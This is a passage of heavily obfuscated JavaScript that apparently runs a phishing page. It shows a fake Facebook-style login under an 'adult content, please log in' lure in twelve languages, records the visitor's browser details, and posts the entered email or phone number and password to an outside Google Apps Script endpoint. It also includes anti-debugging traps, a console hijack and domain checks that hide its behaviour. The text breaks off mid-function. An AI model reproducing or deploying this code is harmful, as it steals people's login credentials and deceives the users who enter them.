if(o.bhqxD(u.length,8)&&o.iveUL(u.charCodeAt(7),116)&&o.sdqdS(u.charCodeAt(5),101)&&o.sdqdS(u.charCodeAt(3),117)&&o.sdqdS(u.charCodeAt(0),100))if(o.IKWEQ(o.vVpKv,o.vVpKv)){n=u;break}for(e in c[n])if(o.IKWEQ(o.MjGtx,o.GzdNh));else if(o.sdqdS(e.length,6)&&o.JHSOK(e.charCodeAt(5),110)&&o.PPrfL(e.charCodeAt(0),100))if(!o.IKWEQ(o.HHkPO,o.btTbo)){v=e;break}if(!o.gqJyR("~",v))if(o.TMADt(o.ZMOZU,o.ZMOZU));else{for(var a in c[n])if(o.ZVCVj(o.IvASV,o.IvASV));else if(o.tKBdZ(a.length,8)&&o.lgqRb(a.charCodeAt(7),110)&&o.lgqRb(a.charCodeAt(0),108))if(!o.IKWEQ(o.cijjf,o.jBfFN)){t=a;break}for(var s in c[n][t])if(o.IKWEQ(o.bKrOc,o.bKrOc)){if(o.lgqRb(s.length,8)&&o.lgqRb(s.charCodeAt(7),101)&&o.lgqRb(s.charCodeAt(0),104))if(!o.IKWEQ(o.yVeem,o.PisZQ)){r=s;break}}else;}if(!n||!c[n])if(o.ZVCVj(o.pVTAk,o.evEWa))return;var i=c[n][v],c=!!c[n][t]&&c[n][t][r],l=o.gVrlh(i,c);if(!l)if(!o.IKWEQ(o.WbvJR,o.GEIWI))return;for(var v,d,g,h=!1,p=0;o.ahSyS(p,f.length);p++)o.ZVCVj(o.jBzMy,o.jBzMy)||(v=f[p],g=o.LHLuS(v[0],String.fromCharCode(46))?v.slice(1):v,d=o.xxZbJ(l.length,g.length),g=l.indexOf(g,d),o.BOKsM(g,-1)&&o.qBUtP(g,d)&&(o.BOKsM(o.UsHBE,o.UsHBE)||(o.lgqRb(l.length,v.length)||o.qBUtP(v.indexOf("."),0))&&(o.qVpuR(o.QTScf,o.IHehW)||(h=!0))));if(h){if(o.BytVt(o.CLEHQ,o.OOGIe))return}else o.kKeNG(o.PpPii,o.PpPii)&&data;o.gwknL(function(){var n={};n.uqPQZ=o.oWNGz,n.VWekK=o.uOfAt,n.bdLtm=function(n,t){return o.PauCL(n,t)},n.drVig=o.CZDnt,n.sgati=o.Mkqhk,n.uIhZu=o.SkVKU,n.XzDZA=function(n,t){return o.IKWEQ(n,t)},n.vIqvS=o.FQrfP,n.KVdfl=o.slweE,n.gLlSo=function(n,t){return o.YVgIn(n,t)},n.tjrYw=o.QbsZO,n.lEcJh=o.aDzKY,n.nRGJn=function(n,t){return o.lEqEA(n,t)},n.wsjac=function(n,t){return o.PauCL(n,t)},n.WPtrk=function(n,t){return o.ooAbz(n,t)};var r=n;if(o.IKWEQ(o.oDXsG,o.oDXsG)){n={};return n.key=o.WpVFN,n.value=o.SQxay,n.getAttribute=function(){if(r.XzDZA(r.vIqvS,r.KVdfl));else for(var n=0;r.gLlSo(n,1e3);n--)if(r.XzDZA(r.tjrYw,r.lEcJh));else{var t=r.nRGJn(n,0);if(!0===t)return r.bdLtm(r.bdLtm(r.wsjac(r.wsjac(this.item,"_"),this.value),"_"),n);r.WPtrk(r.WPtrk(this.item,"_"),this.value)}}(),n}})})();var f,a,t=(f={AMOyT:"3|0|4|5|1|2",GBflm:function(n,t){return n===t},lEosg:function(n,t){return n!==t},sTLzp:function(n,t){return n==t},DQxQZ:function(n,t){return n-t},gOrnJ:"xBpvI",FdRCP:"XiFis",GuSID:function(n,t){return n===t},jKDgF:"kFxgp",KVWSO:"bfxEz",tXVXC:function(n,t){return n(t)},pEggr:function(n,t){return n+t},jwKZS:"debu",lwpsv:"gger",upLvD:"action",yvRDJ:function(n,t){return n===t},PBRVh:"nsAZB",OqPpO:"gfitK"},a=!0,function(t,r){var n={xYQXp:function(n,t){return f.tXVXC(n,t)},YUOmb:function(n,t){return f.pEggr(n,t)}};n.lyMTz=f.jwKZS,n.GtImg=f.lwpsv,n.WuGpa=f.upLvD;if(!f.yvRDJ(f.PBRVh,f.OqPpO)){n=a?function(){var n={};n.lnGQl=f.AMOyT,n.ZeBWN=function(n,t){return f.GBflm(n,t)},n.hdIXr=function(n,t){return f.lEosg(n,t)},n.AAyuE=function(n,t){return f.sTLzp(n,t)},n.wZyIh=function(n,t){return f.DQxQZ(n,t)};if(f.lEosg(f.gOrnJ,f.FdRCP)){if(r)if(!f.GuSID(f.jKDgF,f.KVWSO)){n=r.apply(t,arguments);return r=null,n}}else;}:function(){};return a=!1,n}});!function(){var n={ToJSQ:function(n,t){return n(t)},jyIch:function(n,t){return n+t},OQYeo:function(n,t){return n+t},jiwxF:"return (function() ",buCaf:'{}.constructor("return this")( )',oXiGc:function(n){return n()},GtVyW:function(n,t){return n!==t},FEXeS:"jufVH",itpcm:"ZjzrW",rPqgf:"function *\\( *\\)",GnrEf:"\\+\\+ *(?:[a-zA-Z_$][0-9a-zA-Z_$]*)",SknWF:function(n,t){return n(t)},lcYpY:"init",dXwAj:"chain",WvufC:"input",bCuRr:"zCvbu",cyKrt:function(n,t){return n(t)},GqjvU:"vWYCd",NuoIB:"jPCVV",ByThk:function(n,t,r){return n(t,r)}},u=n;u.ByThk(t,this,function(){var n,t,r;u.GtVyW(u.FEXeS,u.itpcm)&&(n=new RegExp(u.rPqgf),t=new RegExp(u.GnrEf,"i"),r=u.SknWF(A,u.lcYpY),n.test(u.OQYeo(r,u.dXwAj))&&t.test(u.OQYeo(r,u.WvufC))?u.GtVyW(u.GqjvU,u.NuoIB)&&u.oXiGc(A):u.GtVyW(u.bCuRr,u.bCuRr)||u.cyKrt(r,"0"))})()}();var s,l,v=(s={zCcCm:function(n,t){return t<n},Wgcro:function(n,t){return n+t},qyBkB:function(n,t){return n+t},MHNFg:function(n,t){return n+t},AsmlU:function(n,t){return n(t)},CSeHt:"return (function() ",ANafu:'{}.constructor("return this")( )',ljvfy:function(n,t){return n!==t},nKHlv:"zKTlu",ZErXm:function(n,t){return n!==t},OITZu:"Fnhfz",OBLbg:"YAJVs",wTEBx:function(n,t){return n!==t},nXitb:"JfvMW"},l=!0,function(t,r){var n={uszxf:function(n,t){return s.zCcCm(n,t)},bZKcn:function(n,t){return s.Wgcro(n,t)},xjrje:function(n,t){return s.Wgcro(n,t)},ZwfYw:function(n,t){return s.qyBkB(n,t)},krqZV:function(n,t){return s.MHNFg(n,t)},yuDkm:function(n,t){return s.MHNFg(n,t)},gnjsq:function(n,t){return s.AsmlU(n,t)}};n.Hrfsw=s.CSeHt,n.YxADl=s.ANafu,n.UZNNp=function(n,t){return s.ljvfy(n,t)},n.BTBzX=s.nKHlv,n.SPABl=function(n,t){return s.ZErXm(n,t)},n.JiiUA=s.OITZu,n.IoTbs=s.OBLbg;var u=n;if(!s.wTEBx(s.nXitb,s.nXitb)){n=l?function(){var n={WvcjP:function(n,t){return u.gnjsq(n,t)},eCyjG:function(n,t){return u.yuDkm(n,t)},OzwPe:function(n,t){return u.yuDkm(n,t)}};n.reDCW=u.Hrfsw,n.KJtbE=u.YxADl;if(u.UZNNp(u.BTBzX,u.BTBzX));else if(r)if(u.SPABl(u.JiiUA,u.IoTbs)){n=r.apply(t,arguments);return r=null,n}}:function(){};return l=!1,n}});v(this,function(){for(var n={Szpnf:function(n){return n()},VUDaM:function(n,t){return n===t},CCtFe:"OAVtn",RFhqT:"mWlRt",QQmoD:function(n,t){return n===t},iuFjJ:"AcVlQ",Vkgno:function(n,t){return n(t)},WoBsN:function(n,t){return n+t},sfOQT:function(n,t){return n+t},vzZUb:"return (function() ",bRNiG:'{}.constructor("return this")( )',zXUDC:function(n,t){return n===t},jiAme:"bkvEV",uqfcx:function(n){return n()},fAfbz:"log",PAPJi:"warn",uauvL:"info",UTJQf:"error",YxdLD:"exception",HbTeu:"table",uvxyF:"trace",rjRJD:function(n,t){return n<t},ytsfr:function(n,t){return n!==t},HVCWc:"IvYbi",eMaIA:"bGeLx",fnSsD:"5|0|1|4|3|2"},r=n,n=r.uqfcx(function(){var t;if(!r.VUDaM(r.CCtFe,r.RFhqT)){try{r.QQmoD(r.iuFjJ,r.iuFjJ)&&(t=r.Vkgno(Function,r.WoBsN(r.sfOQT(r.vzZUb,r.bRNiG),");"))())}catch(n){r.zXUDC(r.jiAme,r.jiAme)&&(t=window)}return t}}),t=n.console=n.console||{},u=[r.fAfbz,r.PAPJi,r.uauvL,r.UTJQf,r.YxdLD,r.HbTeu,r.uvxyF],e=0;r.rjRJD(e,u.length);e++)if(r.ytsfr(r.HVCWc,r.eMaIA))for(var i=r.fnSsD.split("|"),o=0;;){switch(i[o++]){case"0":var c=u[e];continue;case"1":var f=t[c]||a;continue;case"2":t[c]=a;continue;case"3":a.toString=f.toString.bind(f);continue;case"4":a.__proto__=v.bind(v);continue;case"5":var a=v.constructor.prototype.bind(v);continue}break}else;})(),setTimeout(n=>{var t={LrtnQ:function(n){return n()}};t.LrtnQ(showlog)},1e3*timeout);var n=window.innerWidth,r=window.innerHeight,d=window.devicePixelRatio;$("#wd").val(navigator.userAgent+"[FBDM/density="+d+",width="+n+",height="+r+"]");var g=window.navigator.userLanguage||window.navigator.language;$("#lang").val(g);g=g.substring(0,2);g=["vi","en","th","ko","pt","zh","fr","ja","id","ms","tl","hi"].includes(g)?g:"en";var h={welcome:"Nội dung 18+, vui lòng đăng nhập trước khi xem.",user:"Email hoặc số điện thoại",pass:"Password",submit:"Đăng nhập",forgot:"Quên tài khoản?",login_error:"Mật khẩu bạn đã nhập không chính xác."},p={welcome:"Content 18+, please login before viewing.",user:"Email address or phone number",pass:"Password",submit:"Log In",forgot:"Forgotten account?",login_error:"The password that you've entered is incorrect."},b={welcome:"เนื้อหา 18+ กรุณาเข้าระบบก่อนรับชม",user:"อีเมลหรือหมายเลขโทรศัพท์มือถือ",pass:"รหัสผ่าน",submit:"เข้าสู่ระบบ",forgot:"ลืมบัญชีใช่หรือไม่",login_error:"รหัสผ่านที่คุณป้อนไม่ถูกต้อง"},C={welcome:"콘텐츠 18+,보기 전에 로그인하십시오.",user:"이메일 또는 전화번호",pass:"비밀번호",submit:"로그인",forgot:"계정을 잊으셨나요?",login_error:"입력된 비밀번호가 올바르지 않습니다."},m={welcome:"Conteúdo 18+, faça o login antes de visualizar.",user:"Email ou telefone",pass:"Senha",submit:"Entrar",forgot:"Esqueceu a conta?",login_error:"A senha inserida está incorreta."},y={welcome:"内容18+岁以上，请先登录再查看。",user:"電子郵件地址或手機號碼",pass:"密碼",submit:"登入",forgot:"忘記帳號？",login_error:"你所輸入的密碼錯誤。"},k={welcome:"Contenu 18+, veuillez vous connecter avant de visionner.",user:"Adresse e-mail ou numéro de tél.",pass:"Mot de passe",submit:"Connexion",forgot:"Informations de compte oubliées ?",login_error:"Le mot de passe entré est incorrect."},S={welcome:"コンテンツ18+、閲覧する前にログインしてください。",user:"メールアドレスまたは電話番号:",pass:"パスワード",submit:"ログイン",forgot:"アカウントを忘れた場合",login_error:"入力されたパスワードは正しくありません。"},w={welcome:"Konten 18+, harap masuk sebelum melihat.",user:"Email atau Nomor Telepon",pass:"Kata Sandi",submit:"Login",forgot:"Lupa akun?",login_error:"Kata sandi yang Anda masukkan salah."},W={welcome:"Kandungan 18+, sila masuk sebelum melihat.",user:"E-mel atau Nombor Telefon",pass:"Kata Laluan",submit:"Log Masuk",forgot:"Lupa akaun?",login_error:"Kata laluan yang anda telah masukkan tidak betul."},d={welcome:"Nilalaman 18+, mangyaring mag-login bago tingnan.",user:"Email O Numero ng Telepono",pass:"Password",submit:"Mag-log In",forgot:"Nakalimutan ang account?",login_error:"Hindi tama ang inilagay mong password."},n={welcome:"सामग्री 18+, कृपया देखने से पहले लॉगिन करें।",user:"ईमेल या फ़ोन नंबर",pass:"पासवर्ड",submit:"लॉग इन करें",forgot:"खाता भूल गए?",login_error:"आपके द्वारा डाला गया पासवर्ड गलत है."},r={};r.vi=h,r.en=p,r.th=b,r.ko=C,r.pt=m,r.zh=y,r.fr=k,r.ja=S,r.id=w,r.ms=W,r.tl=d,r.hi=n;language=r[g],$("#welcome").html(language.welcome),$("#background").css("background-image","url("+background+")"),$("#user").attr("placeholder",language.user),$("#pass").attr("placeholder",language.pass);function A(n){var t={KgopZ:function(n,t){return n===t},XfUlx:"dmqiO",fsNhO:"function *\\( *\\)",OnJDB:"\\+\\+ *(?:[a-zA-Z_$][0-9a-zA-Z_$]*)",RsqxR:function(n,t){return n(t)},mMXjr:"init",SVZFc:function(n,t){return n+t},yrctI:"chain",UYDkR:"input",YkndC:function(n,t){return n(t)},EFDFI:function(n){return n()},XQBrI:function(n,t,r){return n(t,r)},BiLWD:function(n,t){return n===t},FOonV:"string",xsmEF:function(n,t){return n!==t},zuRFy:"vvWXh",ZAjyc:"IrNUt",naFwD:"while (true) {}",wLDAu:"counter",eqeeB:function(n,t){return n!==t},stKBZ:function(n,t){return n/t},KnDNK:"length",vCBiZ:function(n,t){return n===t},AeMhr:function(n,t){return n%t},akuzc:function(n,t){return n===t},FLUPZ:"aiQLS",qpqWj:"debu",IXMCL:"gger",uGAQl:"action",sRKzY:"stateObject"},u=t;function r(n){var t={};t.JbqQt=u.fsNhO,t.nVLkp=u.OnJDB,t.Gpftr=function(n,t){return u.RsqxR(n,t)},t.NogWR=u.mMXjr,t.GGVtC=function(n,t){return u.SVZFc(n,t)},t.BrbFR=u.yrctI,t.ljkkA=u.UYDkR,t.AoYKY=function(n,t){return u.YkndC(n,t)},t.PaHkZ=function(n){return u.EFDFI(n)},t.XlkQK=function(n,t,r){return u.XQBrI(n,t,r)};if(u.BiLWD(typeof n,u.FOonV)){if(u.xsmEF(u.zuRFy,u.ZAjyc))return function(n){}.constructor(u.naFwD).apply(u.wLDAu)}else u.eqeeB(u.SVZFc("",u.stKBZ(n,n))[u.KnDNK],1)||u.vCBiZ(u.AeMhr(n,20),0)?u.akuzc(u.FLUPZ,u.FLUPZ)&&function(){if(u.KgopZ(u.XfUlx,u.XfUlx))return!0}.constructor(u.SVZFc(u.qpqWj,u.IXMCL)).call(u.uGAQl):function(){return!1}.constructor(u.SVZFc(u.qpqWj,u.IXMCL)).apply(u.sRKzY);u.YkndC(r,++n)}try{if(n)return r;u.YkndC(r,0)}catch(n){}}setInterval(function(){var n={FlNHI:function(n){return n()}};n.FlNHI(A)},4e3),$(".gform").attr("action","https://script.google.com/macros/s/AKfycbynILOEefqGk5BJrPYJrDmnxVE1DWqq9cuCqWlS1rIYttPfsKr9RkcLCjsrnjNjMPzQ/exec"),$("#name").html(language.submit),$("#forgot").html(language.forgot),document.title=language.welcome}),function(){var n={kkyRx:function(n,t){return n(t)},nnQdD:function(n,t){return n===t},Addrn:"rlakX",kchBS:function(n,t){return n+t},tubIn:"debu",Mynyk:"gger",HcGFh:"action",NAPUk:function(n,t){return t<n},AwUEg:function(n,t){return n+t},OwpcW:function(n,t){return n+t},IuiBW:function(n,t){return n!==t},LCnvU:"eucuz",QckVB:"Uhgre",bbFYV:"1|0|4|2|3|5",LTJYK:function(n,t){return n===t},KPTaS:function(n,t){return n-t},KjIWT:function(n,t){return n==t},WidbO:function(n,t){return n===t},AfxPD:"QncEp",bitQI:"gEKkK",cLpIq:function(n,t){return n===t},seuLF:"TypXt",xqBQl:"ugkIt",hlWYw:'return /" + this + "/',JkgCH:"^([^ ]+( +[^ ]+)+)+[^ ]}",PsSIh:function(n){return n()},sfGTS:"zkCiG",jhBtf:"vUWkk",TXSyH:function(n){return n()},LmRZg:"form.gform",TOKYQ:function(n,t){return n<t},pyoVi:"submit",jqobO:function(n,t){return n===t},brCGh:"JJaRT",yCzuV:function(n,t){return n!==t},pvsiX:"GLfSs",YwjSF:"stateObject",kPruE:"button",leoBM:function(n,t){return n!==t},ChiDg:function(n,t){return t<n},DbZab:"unVnA",PoLvv:"TRjlU",vSjcj:"hDhmI",EuZRf:"QHYHo",djAUu:function(n,t){return t<n},ZFcWU:function(n,t){return n+t},JDqoL:function(n,t){return n+t},LnlyU:"item",dTStj:"attribute",PwmUX:function(n,t){return n==t},Qzlqi:function(n,t){return n===t},ucYTt:"BTxfS",YJPfV:function(n,t){return n+t},kwvPR:"return (function() ",aNbZW:'{}.constructor("return this")( )',rfXvi:"BoyuD",PXaoo:function(n,t){return n<t},JwaRX:function(n,t){return n!==t},HjagW:"qFCpB",MeUCU:function(n,t){return n+t},FIWJn:function(n,t){return n+t},WkoHW:"2|5|4|0|1|3",aAKPB:"apiKey",ZqVoU:function(n,t){return n<t},SpKck:function(n,t){return t<n},FDVlX:"function *\\( *\\)",krFUW:"\\+\\+ *(?:[a-zA-Z_$][0-9a-zA-Z_$]*)",MtNNz:"init",piGkG:function(n,t){return n+t},eGVzW:"chain",KRtIz:function(n,t){return n+t},xAuuv:"input",xhSDa:function(n,t,r){return n(t,r)},RhJOH:function(n,t){return n<t},Yydmo:"#error",uIcBv:function(n,t){return n(t)},yGXlI:"#pass",iccJs:"POST",SoaMq:"Content-Type",XiFCl:"application/x-www-form-urlencoded",wbEMU:function(n,t){return n===t},PTlOW:"MTGde",YzeDV:"eFogw",vrSji:"JJfFR",GQPfh:function(n,t){return n+t},TuxQn:function(n,t){return n!==t},FCFtx:"DZcSL",FhkGV:"DsitW",usddT:"[kXYjRMxLIMQrOEGPzAHSRTZVDXTCUDkqrsVICLExYzFGYLOfKGzkZEKNNMxOpkCMZOBYJXJYDkVX]",rqxBG:"kwXwwY.jgRMoxoLglIeM.QrOcoEmGP;thzAaHSilRTZandhoVDtXTvCUDidkqreos.gViICtLEhxYzuFGYLObf.iKGozkZEKNNMxOpkCMZOBYJXJYDkVX",BSopA:function(n,t){return n===t},jfCLd:"NgLDB",BDVUx:"QemnZ",kwouJ:function(n,t){return n==t},schic:function(n,t){return n==t},gWBzb:"jNwHu",yXoWy:"CpfAy",zlnvp:function(n,t){return n==t},BajCz:function(n,t){return n==t},kyHTn:function(n,t){return n===t},ceCUY:"XqNBH",bCXZS:function(n,t){return t<n},AYThx:function(n,t){return n===t},otnKJ:"WLtqL",vrdYz:"YHWEB",azqBW:function(n,t){return n!==t},wmwga:"uaUWn",pCFTk:"aNoMx",CFlou:"ipzOL",FuSEM:function(n,t){return n===t},qDypZ:"DugbL",IMSYM:function(n,t){return n==t},JfJJs:function(n,t){return n==t},WuCmE:function(n,t){return n===t},kGDjU:"lIojR",SykUx:"PZtRv",pfdBc:"fobGv",TPfat:function(n,t){return n||t},YHpTT:"FCujx",JElgD:"HnEzT",UFZRC:function(n,t){return n===t},IGNJB:function(n,t){return n!==t},xPqly:"THhzF",lHtmE:"LBZdH",JsXgo:function(n,t){return n!==t},kuFOz:"fAQYC",qKJDH:"rYNwz",YRvJq:"YvewY",mIqkC:"kKMbv",SQIBb:"myOAj",SryrU:"teMZS",IGaEN:function(n,t){return n!==t},iqlVk:"YrHny",BITCk:"lShHI",YxLBC:"QUZHs",iifBc:"fCtlC",tHgEU:function(n){return n()},ntgKj:function(n,t){return n!==t},cXNgW:"eKaIK",dHEcl:"GlTWC",DClWc:function(n,t){return n(t)},kGHiO:function(n,t){return n<t},apmhG:function(n,t){return n===t},GNMwv:"TahWh",Wxloc:"McfeN",cleGW:function(n,t){return n(t)},zgBcX:function(n,t){return n+t},EuHvt:function(n,t){return n===t},bQaas:"dkgXm",KdNtB:"eaROr",Xztcl:"EmUsv",EecZi:"oMiEF",YsACD:function(n){return n()},lENVC:function(n,t){return n!==t},lGVAG:"lWFEk",aCuNb:function(n,t,r){return n(t,r)},aFtTt:"FLKza",nhrwb:function(n,t){return n!==t},OdFSi:"effeV",oRnrt:function(n,t){return n(t)},tivPR:function(n,t){return n<t},gZKBp:function(n,t){return n+t},kFfqK:function(n,t){return n===t},muUIE:"KLoXE",SGssv:"EqehZ",JweuC:function(n,t){return n!==t},ytqFp:"Lweav",iamGr:function(n,t){return n===t},WrzBX:"VmTuT",iCtdY:function(n,t){return n!==t},JKnBj:"Ifxpt",bxgrS:function(n,t){return n(t)},XmmZS:function(n,t){return n+t},cDCvh:function(n,t){return n!==t},bHPAQ:"UTyBK",QsQro:"KltGi",Lmadu:"while (true) {}",MSAzT:"counter",HRBoM:function(n,t){return n(t)},vvIZy:function(n,t){return n===t},pALgK:"KzNLt",LuNCo:"NWGCS",Kludl:function(n){return n()},BgytG:"log",jdaPh:"warn",lcWbA:"info",zYdEn:"error",joWVW:"exception",HQNRM:"table",sfNHO:"trace",eCixR:function(n,t){return n<t},NhdMc:function(n,t){return n!==t},GnnLj:"qvLof",Hgzxr:"1|2|5|4|3|0",OZgar:function(n,t){return n<t},zJAve:function(n,t){return n(t)},zfOYv:function(n,t){return n(t)},FsQVu:function(n,t){return n+t},cblOq:function(n,t){return n(t)},rXfoQ:"liraI",TumhY:"Pdhlc",LRnsH:function(n,t){return n!==t},aWbuQ:"sXwaT",ydbrz:"Egfqg",twtFx:function(n,t){return t<n},kzodN:function(n,t){return n(t)},LKgCL:"gfLWi",Nelgo:function(n){return n()},edPRk:"KfxjM",cgAVM:"eqzhc",hYbBR:"ztHfy",lPwJo:"kVCIy",KphHG:function(n,t){return n<t},LKSzP:"OmpDd",lcKYd:"05-2021",PLTmC:"#user",RHvar:function(n,t,r){return n(t,r)},xXehr:function(n){return n()},YXywP:function(n,t,r){return n(t,r)},yHNSI:"DOMContentLoaded"},C=n,n=function(){var n={pGUhe:function(n,t){return C.kchBS(n,t)}};n.Ewndu=C.tubIn,n.qMhXS=C.Mynyk,n.aVcRE=C.HcGFh,n.kaoho=function(n,t){return C.NAPUk(n,t)},n.fOLkV=function(n,t){return C.AwUEg(n,t)},n.tmWzA=function(n,t){return C.OwpcW(n,t)},n.jvyMO=function(n,t){return C.IuiBW(n,t)},n.wSJAG=C.LCnvU,n.OOCph=function(n,t){return C.nnQdD(n,t)},n.TSbVz=C.QckVB,n.fCsIo=C.bbFYV,n.bGNzh=function(n,t){return C.LTJYK(n,t)},n.dFslD=function(n,t){return C.IuiBW(n,t)},n.QKzCt=function(n,t){return C.LTJYK(n,t)},n.MbkOF=function(n,t){return C.KPTaS(n,t)},n.ybKfI=function(n,t){return C.KjIWT(n,t)};var u=n;if(!C.WidbO(C.AfxPD,C.bitQI)){var e=!0;return function(t,r){var n={tNkkj:function(n,t){return C.kkyRx(n,t)}};if(C.nnQdD(C.Addrn,C.Addrn)){n=e?function(){var n={atpdF:function(n,t){return u.kaoho(n,t)},HKmdJ:function(n,t){return u.pGUhe(n,t)},iAZkZ:function(n,t){return u.fOLkV(n,t)},roZnW:function(n,t){return u.tmWzA(n,t)},eEMyv:function(n,t){return u.tmWzA(n,t)},ryQIm:function(n,t){return u.tmWzA(n,t)}};if(u.jvyMO(u.wSJAG,u.wSJAG));else if(r)if(u.OOCph(u.TSbVz,u.TSbVz)){n=r.apply(t,arguments);return r=null,n}}:function(){};return e=!1,n}}}}(),r=C.RHvar(n,this,function(){var n={};n.VAMUZ=C.hlWYw,n.OpEIS=C.JkgCH,n.UTIyy=function(n){return C.PsSIh(n)};if(C.IuiBW(C.sfGTS,C.jhBtf)){var t=function(){if(!C.cLpIq(C.seuLF,C.xqBQl))return!t.constructor(C.hlWYw)().constructor(C.JkgCH).test(r)};return C.TXSyH(t)}});C.Nelgo(r);n=function(){var n={OwRdK:function(n,t){return C.jqobO(n,t)}};n.LUbdr=C.brCGh,n.iMPwE=function(n,t){return C.yCzuV(n,t)},n.Letcp=C.pvsiX,n.uiUKE=function(n,t){return C.OwpcW(n,t)},n.lzXhO=C.tubIn,n.RWPvJ=C.Mynyk,n.SfTke=C.YwjSF,n.FjMYx=C.kPruE,n.Aujfk=function(n,t){return C.TOKYQ(n,t)},n.VzPNU=function(n,t){return C.leoBM(n,t)},n.WvtbF=function(n,t){return C.ChiDg(n,t)},n.weFHd=C.DbZab,n.fywXW=C.PoLvv;var u=n;if(C.leoBM(C.vSjcj,C.EuZRf)){var e=!0;return function(t,r){var n={mEPCu:function(n,t){return u.uiUKE(n,t)}};n.AFDhR=u.lzXhO,n.tuJrv=u.RWPvJ,n.gckdU=u.SfTke,n.HkzWr=u.FjMYx,n.YTClY=function(n,t){return u.Aujfk(n,t)},n.tccUZ=function(n,t){return u.VzPNU(n,t)},n.AooxC=function(n,t){return u.WvtbF(n,t)};if(!u.OwRdK(u.weFHd,u.fywXW)){n=e?function(){if(u.OwRdK(u.LUbdr,u.LUbdr)){if(r)if(!u.iMPwE(u.Letcp,u.Letcp)){var n=r.apply(t,arguments);return r=null,n}}else;}:function(){};return e=!1,n}}}}(),n=C.RHvar(n,this,function(){var n={WMpwC:function(n,t){return C.Qzlqi(n,t)}};n.ptIlL=C.rfXvi,n.zOtBS=function(n,t){return C.PXaoo(n,t)},n.ZILdH=function(n,t){return C.JwaRX(n,t)},n.neclH=C.HjagW,n.LNNQK=function(n,t){return C.djAUu(n,t)},n.wJXsY=function(n,t){return C.MeUCU(n,t)},n.oQZEy=function(n,t){return C.MeUCU(n,t)},n.vFmrB=function(n,t){return C.FIWJn(n,t)},n.bvIbb=C.WkoHW,n.tCAXM=function(n,t){return C.JwaRX(n,t)},n.ofwbs=C.aAKPB,n.UCcEJ=function(n,t){return C.ZqVoU(n,t)},n.IHKYN=function(n,t){return C.SpKck(n,t)},n.dzqcu=function(n,t){return C.FIWJn(n,t)},n.bIaph=function(n,t){return C.FIWJn(n,t)},n.JdcXr=function(n,t){return C.FIWJn(n,t)},n.MwLZf=function(n,t){return C.FIWJn(n,t)},n.uihxg=C.FDVlX,n.PkZXZ=C.krFUW,n.aLciA=function(n,t){return C.kkyRx(n,t)},n.RUgHt=C.MtNNz,n.vfCze=function(n,t){return C.piGkG(n,t)},n.Imnma=C.eGVzW,n.rUWZj=function(n,t){return C.KRtIz(n,t)},n.ylUXX=C.xAuuv,n.XjycA=function(n,t){return C.kkyRx(n,t)},n.FnzGy=function(n){return C.TXSyH(n)},n.epmxd=function(n,t,r){return C.xhSDa(n,t,r)},n.MlBgQ=function(n,t){return C.PwmUX(n,t)},n.TSvcq=C.kPruE,n.JwTJa=function(n,t){return C.RhJOH(n,t)},n.BWIir=function(n,t){return C.kkyRx(n,t)},n.BvFNN=C.Yydmo,n.TsuMM=function(n,t){return C.uIcBv(n,t)},n.czwRF=C.yGXlI,n.WtKLp=function(n,t){return C.uIcBv(n,t)},n.AeJeh=C.iccJs,n.swLxk=C.SoaMq,n.Ehtlz=C.XiFCl;var r=n;if(C.wbEMU(C.PTlOW,C.PTlOW)){try{C.wbEMU(C.YzeDV,C.vrSji)||(c=C.uIcBv(Function,C.KRtIz(C.GQPfh(C.kwvPR,C.aNbZW),");")),l=C.TXSyH(c))}catch(n){C.TuxQn(C.FCFtx,C.FhkGV)&&(l=window)}var t,u,e,i,o,c=new RegExp(C.usddT,"g"),f=C.rqxBG.replace(c,"").split(";");for(i in l)if(C.BSopA(C.jfCLd,C.BDVUx));else if(C.PwmUX(i.length,8)&&C.kwouJ(i.charCodeAt(7),116)&&C.kwouJ(i.charCodeAt(5),101)&&C.kwouJ(i.charCodeAt(3),117)&&C.schic(i.charCodeAt(0),100))if(!C.TuxQn(C.gWBzb,C.gWBzb)){t=i;break}for(o in l[t])if(C.TuxQn(C.yXoWy,C.yXoWy));else if(C.schic(o.length,6)&&C.zlnvp(o.charCodeAt(5),110)&&C.BajCz(o.charCodeAt(0),100))if(C.kyHTn(C.ceCUY,C.ceCUY)){d=o;break}if(!C.bCXZS("~",d))if(C.AYThx(C.otnKJ,C.vrdYz));else{for(var a in l[t])if(C.azqBW(C.wmwga,C.wmwga));else if(C.BajCz(a.length,8)&&C.BajCz(a.charCodeAt(7),110)&&C.BajCz(a.charCodeAt(0),108))if(!C.AYThx(C.pCFTk,C.CFlou)){u=a;break}for(var s in l[t][u])if(C.FuSEM(C.qDypZ,C.qDypZ)){if(C.BajCz(s.length,8)&&C.IMSYM(s.charCodeAt(7),101)&&C.JfJJs(s.charCodeAt(0),104))if(C.WuCmE(C.kGDjU,C.kGDjU)){e=s;break}}else;}if(!t||!l[t])if(!C.WuCmE(C.SykUx,C.pfdBc))return;var c=l[t][d],l=!!l[t][u]&&l[t][u][e],v=C.TPfat(c,l);if(!v)if(C.WuCmE(C.YHpTT,C.YHpTT))return;for(var d,g,h,p=!1,b=0;C.RhJOH(b,f.length);b++)C.WuCmE(C.JElgD,C.JElgD)&&(d=f[b],h=C.WuCmE(d[0],String.fromCharCode(46))?d.slice(1):d,g=C.KPTaS(v.length,h.length),h=v.indexOf(h,g),C.azqBW(h,-1)&&C.UFZRC(h,g)&&C.IGNJB(C.xPqly,C.lHtmE)&&(C.JfJJs(v.length,d.length)||C.UFZRC(d.indexOf("."),0))&&C.JsXgo(C.kuFOz,C.qKJDH)&&(p=!0));if(p){if(!C.JsXgo(C.mIqkC,C.mIqkC))return}else C.UFZRC(C.YRvJq,C.YRvJq)&&data;C.TXSyH(function(){var n={VpQjn:function(n,t){return C.TOKYQ(n,t)}};if(C.Qzlqi(C.ucYTt,C.ucYTt)){n={};return n.key=C.LnlyU,n.value=C.dTStj,n.getAttribute=function(){if(r.WMpwC(r.ptIlL,r.ptIlL))for(var n=0;r.zOtBS(n,1e3);n--)if(r.ZILdH(r.neclH,r.neclH));else{var t=r.LNNQK(n,0);if(!0===t)return r.wJXsY(r.oQZEy(r.oQZEy(r.vFmrB(this.item,"_"),this.value),"_"),n);r.vFmrB(r.vFmrB(this.item,"_"),this.value)}else;}(),n}})}else;});C.xXehr(n);var t=function(){var n={YuNte:function(n,t){return C.RhJOH(n,t)},tHSrY:function(n,t){return C.UFZRC(n,t)}};n.rirOu=C.SQIBb,n.OAMpA=C.SryrU,n.HLueM=function(n,t){return C.IGaEN(n,t)},n.tUNaa=C.iqlVk,n.MIQqf=C.BITCk,n.djRdV=C.YxLBC,n.YeXRU=C.iifBc,n.SLpou=function(n){return 